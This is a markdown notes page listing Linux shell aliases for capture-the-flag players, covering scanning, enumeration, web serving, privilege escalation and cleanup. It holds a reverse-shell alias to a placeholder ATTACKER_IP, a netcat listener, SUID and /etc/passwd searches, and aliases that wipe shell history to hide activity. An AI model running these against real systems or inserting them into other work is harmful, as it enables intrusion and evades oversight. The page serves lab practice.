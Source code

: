 ```yaml
---
tags:
  - "#github"
  - "#type/template"
  - "#markdown"
  - "#notes"
  - "#network-security"
  - "#linux-hardware"
  - "#ctf"
  - "#kali-linux"
  - "#shell-aliases"
  - "#programming"
  - "#python"
  - "#learning"
  - "#shell-scripting"
description:
author:
created: Sunday, June 29th 2025, 12:31:31 am
source:
title: 🧠 CTF Linux Shell Aliases
date modified: Sunday, June 29th 2025, 12:43:38 am
---
```


Here’s a comprehensive list of **Linux shell aliases** tailored for CTF (Capture The Flag) players, especially those working in **Kali Linux** or **Parrot OS** environments. These aliases are meant to **speed up reconnaissance, enumeration, exploitation, privilege escalation, and cleanup** tasks.

---

# CTF Linux Shell Aliases

You can place these in your `.bashrc`, `.zshrc`, or a dedicated file like `~/.ctf_aliases` and source it:

```bash
source ~/.ctf_aliases
```

---

## 🔎 Recon & Enumeration

```bash
alias ports='netstat -tuln | grep LISTEN'
alias ipinfo='ip a && ip r'
alias myip='curl -s ifconfig.me'
alias whatweb='whatweb -v'
alias nmapf='nmap -sC -sV -T4 -oN nmap_full'
alias nmapq='nmap -sS -T4 -p- --min-rate=1000'
alias nmapudp='nmap -sU -T4 -p- --min-rate=1000'
alias gobusterd='gobuster dir -u http://TARGET -w /usr/share/wordlists/dirb/common.txt'
alias gobusters='gobuster dns -d DOMAIN -w /usr/share/wordlists/dns/namelist.txt'
alias ffufd='ffuf -u http://TARGET/FUZZ -w /usr/share/wordlists/dirb/common.txt -mc 200'
alias waf='wafw00f http://TARGET'
alias header='curl -I http://TARGET'
```

---

## 📁 File Operations

```bash
alias l='ls -lh --color=auto'
alias la='ls -lah --color=auto'
alias ..='cd ..'
alias ...='cd ../..'
alias extract='dtrx'
alias getflag='find / -name flag\* 2>/dev/null'
alias getperm='find / -perm -4000 2>/dev/null'
```

---

## 🧱 Web & HTTP

```bash
alias serve='python3 -m http.server 8000'
alias phpserve='php -S 0.0.0.0:8000'
alias httplog='sudo tcpdump -A -i any port 80 or port 443'
alias burp='java -jar ~/tools/burpsuite.jar'
alias curlpost='curl -X POST -d'
alias ua='curl -A "Mozilla/5.0"'
```

---

## 🧰 Exploitation & Scripting

```bash
alias pwncat='rlwrap nc -lvnp'
alias revip='ip a | grep -E "inet\s"'
alias revsh='bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'
alias shellz='python3 -c "import pty; pty.spawn(\'/bin/bash\')"'
alias upgrade='python3 -c "import pty; pty.spawn(\"/bin/bash\")"' # After running, manually type: export TERM=xterm
alias suidbin='find / -perm -4000 -type f 2>/dev/null'
alias linpeas='./linpeas.sh | tee linpeas.log'
```

---

## 📈 Privilege Escalation

```bash
alias checkperm='find / -type f \( -perm -4000 -o -perm -2000 \) 2>/dev/null'
alias pshell='python3 -c "import pty; pty.spawn(\'/bin/bash\')"'
alias suidlist='find / -type f -perm -04000 -ls 2>/dev/null'
alias gtfo='xdg-open https://gtfobins.github.io'
alias sudoers='sudo -l'
alias chkcron='ls -la /etc/cron*'
alias chkpasswd='cat /etc/passwd | grep sh$'
```

---

## 🛜 Network Utilities

```bash
alias myports='ss -tulwn'
alias sniff='sudo tcpdump -i any -nn'
scanlive() {
  local subnet=${1:-192.168.1}
  for ip in $(seq 1 254); do
    ping -c1 "${subnet}.${ip}" | grep "64 bytes" &
  done
  wait
}
alias dnslookup='dig +short'
alias whoisall='whois $(whoami)@$(hostname)'
```

---

## 🔧 Automation & Tools

```bash
alias autorev='searchsploit $(file target | cut -d ":" -f2)'
alias httpx='cat urls.txt | httpx -title -status -tech-detect -favicon'
alias amassenum='amass enum -passive -d DOMAIN'
alias subfinder='subfinder -d DOMAIN -silent'
```

---

## 🧼 Cleanup

```bash
alias cleanup='history -c && history -w && rm -f ~/.bash_history'
alias killpy='pkill -f python3'
alias clearlogs='> ~/.bash_history && history -c && unset HISTFILE'
```

---

## 🧪 Dev & Script Shortcuts

```bash
alias py='python3'
alias ipy='ipython'
alias e='nano'
alias p='ping'
alias c='clear'
alias gs='git status'
alias gd='git diff'
```

---

## 📂 Custom CTF Folder Management

```bash
alias ctftemp='mkdir -p ~/ctf && cd ~/ctf'
alias bandit='ssh bandit0@bandit.labs.overthewire.org -p 2220'
```

---

## 📜 Load These Aliases

To make these aliases persistent:

### 1. Save to `.ctf_aliases`

```bash
nano ~/.ctf_aliases
```

Paste the list you want. Then add this line to your `.bashrc` or `.zshrc`:

```bash
[ -f ~/.ctf_aliases ] && source ~/.ctf_aliases
```

### 2. Reload Shell

```bash
source ~/.bashrc
# or
source ~/.zshrc
```

---

## 🔍 References & Further Learning

- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
    
- [GTFOBins](https://gtfobins.github.io/)
    
- [HackTricks](https://book.hacktricks.xyz/)
    
- [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
    
- [awesome-ctf](https://github.com/apsdehal/awesome-ctf)
    
- [exploit-database](https://www.exploit-db.com/)
    
- [revshells.com](https://www.revshells.com/) (great reverse shell generator)

---
